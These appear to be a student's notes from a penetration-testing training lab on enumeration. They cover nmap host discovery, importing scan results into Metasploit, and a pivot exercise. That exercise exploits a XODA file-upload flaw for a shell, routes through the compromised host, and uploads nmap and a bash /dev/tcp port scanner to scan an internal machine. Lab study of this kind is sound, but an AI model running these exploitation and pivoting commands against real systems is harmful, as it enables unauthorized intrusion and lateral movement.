 # Assessment Methodologies: Enumeration

## Nmap Scripting Engine (NSE)

### **Windows Recon: Nmap Host Discovery**

```bash
ping -c 5 demo.ine.local
nmap demo.ine.local
nmap -Pn demo.ine.local
nmap -Pn -p 443 demo.ine.local
nmap -Pn -sV -p 80 demo.ine.local
```

### **Importing Nmap Scan Results Into MSF**

```bash
ping -c 4 demo.ine.local
nmap -sV -Pn -oX myscan.xml demo.ine.local
service postgresql start
msfconsole
db_status
db_import myscan.xml
hosts
services
```

### T1046 : Network Service Scanning

```bash
ping -c 4 demo1.ine.local
nmap demo1.ine.local
curl demo1.ine.local
msfconsole
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
shell
ip addr
run autoroute -s 192.180.108.2
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set verbose false
set ports 1-1000
exploit
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
CTRL+z
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
fg
sessions -i 1
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
./nmap -p- 192.180.108.3
```
